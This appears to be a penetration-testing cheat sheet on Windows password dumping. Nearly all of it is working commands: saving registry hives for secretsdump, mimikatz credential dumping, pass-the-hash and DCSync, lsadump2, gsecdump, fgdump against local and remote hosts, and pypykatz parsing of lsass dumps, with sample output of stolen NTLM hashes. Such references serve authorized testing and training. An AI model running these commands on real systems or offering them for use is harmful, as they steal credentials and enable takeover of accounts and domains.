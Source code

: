 ```yaml
---
description: >-
  process of obtaining account login and password information, normally in the
  form of a hash or a clear text password.
---
```


# Password Dumping

## Manual

```text
reg save hklm\sam c:\temp\sam.save
reg save hklm\security c:\temp\security.save
reg save hklm\system c:\temp\system.save
```

on our own host:

```text
impacket-secretsdump -sam sam.save -security security.save -system system.save LoOCAL
```

## Mimikatz

Mimikatz is a leading post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets.

Link: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

### **Quick usage**

Ask for debug privilege for mimikatz process. \(have to be done first\) 

`privilege::debug` 

**Clear screen** 

`Cls` 

**Exit mimikatz**

`Exit` 

### **Examples**

**Dump credentials:** 

```text
privilege::debug  
sekurlsa::logonpasswords
```

  **Pass-The-Hash** 

`mimikatz # sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a` 

**Minidump** 

`mimikatz # sekurlsa::minidump lsass.dmp` 

**DCSync** 

`lsadump::dcsync /domain:pentestlab.local /user:test` 

## lsadump

This is an application to dump the contents of the LSA secrets on a machine, provided you are an Administrator. It uses the same technique as pwdump2 to bypass restrictions that Microsoft added to LsaRetrievePrivateData\(\), which cause the original lsadump to fail. 

Lsadump2 requires Administrator access to run. The usage for lsadump2 is shown here: 

`C:\>lsadump2.exe Lsadump2` - dump an LSA secret. Usage: lsadump2.exe &lt;pid of lsass.exe&gt; &lt;secret&gt; 

You will have to determine the PID of the lsass \(just as with pwdump2\): 

`C:\>tlist | find /i "lsass" 244 LSASS.EXE` 

## gsecdump

gsecdump is a publicly-available credential dumper used to obtain password hashes and LSA secrets from Windows operating systems.

Link: [https://download.openwall.net/pub/projects/john/contrib/win32/pwdump/gsecdump-0.7-win32.zip](https://download.openwall.net/pub/projects/john/contrib/win32/pwdump/gsecdump-0.7-win32.zip)

### example

`C:\Documents and Settings\nobody\Desktop>gsecdump -u gsecdump -u MSHOME\XPSP1VM$::aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`

## FGDump

Cachedump aka In-memory attacks for SAM hashes / Cached Domain Credentials.

Example locally:

```text
C:\Documents and Settings\malware\Bureau\fgdump-2.1.0-exeonly>fgdump.exe 
fgDump 2.1.0 - fizzgig and the mighty group at foofus.net 
Written to make j0m0kun's life just a bit easier 
Copyright(C) 2008 fizzgig and foofus.net 
fgdump comes with ABSOLUTELY NO WARRANTY! 
This is free software, and you are welcome to redistribute it 
under certain conditions; see the COPYING and README files for 
more information. 
--- Session ID: 2014-01-20-19-10-02 --- 
Starting dump on 127.0.0.1 
** Beginning local dump ** 
OS (127.0.0.1): Microsoft Windows XP Professional Service Pack 3 (Build 2600) 
Passwords dumped successfully 
Cache dumped successfully 
-----Summary----- 
Failed servers: 
NONE 
Successful servers: 
127.0.0.1 
Total failed: 0 
Total successful: 1 
```

fgdump has successfully dumped the password hashes: 

```text
C:\Documents and Settings\malware\Bureau\fgdump-2.1.0-exeonly>more 127.0.0.1.pwdump 
Administrateur:500:B0347EB22B87E3F1AAD3B435B51404EE:711EFD7CDC285C11DDFAE2B3D9861DB1::: 
HelpAssistant:1000:6C34BBCD28DD6A8A56088AD6CEFC1BFB:D474527929F6B428B7EA2F7C8B79CE5A::: 
InvitÚ:501:NO PASSWORD*********************:NO PASSWORD*********************::: 
malware:1003:NO PASSWORD*********************:NO PASSWORD*********************::: 
SUPPORT_388945a0:1002:NO PASSWORD*********************:AAB42B496473C917825C842BEACF0B75:::
```

  Dumping the Local Machine Using a Different Account 

`fgdump.exe -h 127.0.0.1 -u AnAdministrativeUser`  

 Dumping a Remote Machine \(192.168.0.10\) Using a Specified User \(1\) 

 `fgdump.exe -h 192.168.0.10 -u AnAdministrativeUser -p l4mep4ssw0rd`  

##  pypykatz

Mimikatz implementation in pure Python.

**parsing lsass dump:**

```text
pypykatz lsa minidump lsass.DMP
```

